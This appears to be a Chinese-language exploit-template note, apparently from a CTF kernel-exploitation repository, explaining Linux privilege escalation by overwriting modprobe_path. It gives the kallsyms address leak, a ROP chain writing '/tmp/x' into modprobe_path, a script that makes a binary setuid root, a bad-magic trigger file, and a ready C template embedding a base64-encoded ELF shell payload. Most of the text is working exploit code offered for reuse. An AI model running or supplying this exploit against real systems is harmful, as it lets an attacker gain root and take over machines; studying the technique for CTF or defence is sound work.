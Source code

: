 # modprobe_path提权

利用前提 : 泄露地址和任意地址写

## 攻击

泄露modprobe_path的地址，其值是一个字符串

```sh
~ # cat /proc/kallsyms | grep modprobe_path
ffffffff82c91540 D modprobe_path
```

修改`modprobe_path`的值为`/tmp/`

```asm
pop rax; ret
modprobe_path_addr
pop rdi; ret
0x782f706d742f(/tmp/x)
mov qword ptr [rax], rdi; ret

// 确保内核不会崩溃
pop rdi; ret;
0x7fffffff
msleep
```

设置`/tmp/x`文件的内容为

```sh
#!/bin/sh
chown 0:0 /tmp/sh
chmod u+s /tmp/sh
```

之后，如果内核运行一个错误的文件，就会以root权限运行`/tmp/x`

创建一个错误文件

```sh
echo -ne "\xff\xff\xff\xff" > /tmp/err
```

设置`/tmp/sh`文件为获取`root`的程序，详见`sh.fasm`或`sh.nasm`

运行`/tmp/err`, 内核会通过`modprobe_path`以root权限调用`/tmp/x`，`/tmp/x`会给`/tmp/sh`s权限，然后用户运行`/tmp/sh`即可获得`root`权限

## 快速模板

### C

```C
// 创建x文件，用于modprobe触发
char content[0x200] = {0};
sprintf(content,
        "#!/bin/sh\n"
        "echo 'f0VMRgIBAQMAAAAAAAAAAAIAPgABAAAAyBBAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAACAEAAAAAAAAEAAAAGAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAyAAAAAAAAADIAAAAAAAAAAAQAAAAAAAAAQAAAAUAAADIAAAAAAAAAMgQQAAAAAAAyBBAAAAAAAA4AAAAAAAAADgAAAAAAAAAABAAAAAAAAAvYmluL3NoALAAQAAAAAAAAAAAAAAAAABIMf9IMfa4agAAAA8FSDH/SDH2uHEAAAAPBUiNPcfv//9IjTXI7///SDHAsDsPBbg8AAAAMf8PBQ==' | base64 -d > %s\n"
        "chown 0:0 %s\n"
        "chmod u+s %s\n",
        "/tmp/x", "/tmp/x", "/tmp/x");

// 写入x文件
int fd = open("/tmp/x", O_WRONLY | O_CREAT | O_NOCTTY | O_NONBLOCK, 0755);
write(fd, content, strlen(content));
close(fd);

// 写入错误的执行文件
fd = open("/tmp/err", O_WRONLY | O_CREAT | O_NOCTTY | O_NONBLOCK, 0755);
write(fd, "\xff\xff\xff\xff", 4);
close(fd);

// 触发modprobe，修改x权限并写入x
system("/tmp/err");

// 获取root
system("/tmp/x");
```

### 使用demo模板

```C
kernel_modprobe_create_fake_modprobe("/tmp/x", "/tmp/err", true);
// system("/tmp/err");
// system("/tmp/x");
```
